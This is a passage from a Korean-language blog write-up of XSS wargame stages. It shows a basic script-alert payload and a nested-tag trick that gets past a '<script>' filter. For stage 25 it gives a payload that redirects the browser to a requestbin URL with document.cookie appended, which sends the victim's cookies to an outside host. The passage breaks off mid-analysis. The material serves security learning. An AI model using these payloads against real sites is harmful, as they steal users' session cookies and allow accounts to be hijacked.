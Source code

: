 해보려고 했지만, `XSS` 이게 끝!

진짜임.


![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/xss4_5.png)

그래서 기본을 시도했다!



```
<script>alert(1)</script>
```



이렇게 하니까 `alert(1)`가 뜹니다. 이걸로 `<script>`가 필터링되어서 없어짐을 알게 되었습니다.

예전에 xss game에서 이런 문제 있었는데, 그 문제에 대해서 기억나시나요?

그렇게 풀면 풀립니다!! 우와!



```
q=<scscriptript>alert(1)</scrscriptipt>
```



우힛 이렇게 하면 알림창 뜸! 그 이후에는 예상이 가죠? 그럼 pass!



------



### stage 25 - Limit count script



```
<script>alert(1)</script>
```



이렇게 하면 떠서 의아해서 밑의 스크립트를 넣으니



```
<script>location='http://requestbin.fullcontact.com/1def3da1?a='%2Bdocument.cookie</script>
```



역시 25번까지 왔는데 될리가 없죠!

그래서 왜 안되는지 소스코드 보기를 해서 보면 중간에 글자가 짤리네요!


![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/xss4_7.png)



이거 보니까 몇자 짤려요! 몇자까지 잘리나보면,
